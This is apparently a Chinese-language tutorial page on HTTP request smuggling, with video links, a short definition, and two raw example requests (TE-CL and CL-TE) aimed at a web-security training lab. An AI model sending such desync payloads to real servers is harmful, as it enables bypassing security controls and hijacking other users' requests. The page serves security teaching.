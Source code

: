 # Http Smuggling

[YouTube系列教程](https://www.youtube.com/watch?v=Dsy9CxjNCYE&list=PLgZqc0esdeS-AEqmdmoxroGu5b08Wbb0f)
<iframe width="720px" height="480px" src="https://www.youtube.com/embed/Dsy9CxjNCYE" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

[B站系列教程](https://www.bilibili.com/medialist/play/282616786?from=space&business=space_series&business_id=2262479&desc=1&spm_id_from=333.999.0.0)
<iframe src="//player.bilibili.com/player.html?aid=641345810&bvid=BV18Y4y1b7hk&cid=711950088&page=1"  frameborder="no"  allowfullscreen="true" style="width:720px;height:480px"> 
</iframe>

## 什么是 Http Smuggling
HTTP请求走私是一种干扰网站处理从一个或多个用户接收的HTTP请求序列的方式的技术。请求走私漏洞本质上通常很关键，它使攻击者可以绕过安全控制，未经授权访问敏感数据并直接危害其他应用程序用户。

![er](/imgs/web/exploits/smuggling/1.png)

![er](/imgs/web/exploits/smuggling/2.png)

![er](/imgs/web/exploits/smuggling/3.png)

<DocsAD/>

## CL(TE) - TE(CL)
* Content-Length
* Transfer-Encoding

## TE-CL
```js
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: x
Transfer-Encoding: chunked

aa

GET /404 HTTP/1.1
X-Ignore: X

0
```

## CL-TE
```js
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

0
```